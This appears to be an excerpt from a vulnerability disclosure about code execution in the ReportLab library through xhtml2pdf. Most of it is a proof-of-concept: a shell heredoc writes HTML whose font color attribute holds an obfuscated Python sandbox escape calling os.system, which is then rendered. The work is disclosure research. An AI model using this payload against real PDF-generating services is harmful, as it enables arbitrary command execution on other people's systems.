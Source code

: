 # What Else?
A lot of apps and libraries use the Reportlab library for example xhtml2pdf utility function is vulnerable and can suffer from code execution while transforming malicious HTML to pdf

```sh
cat >mallicious.html <<EOF
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
EOF

xhtml2pdf mallicious.html
ls -al /tmp/exploited
```

# Thanks
I want to thank Matthias Weckbecker for his collaboration and wonderful exchange discussing the shortcomings of the original exploit. Now the exploit works seamlessly on all versions of Python 3 :D
 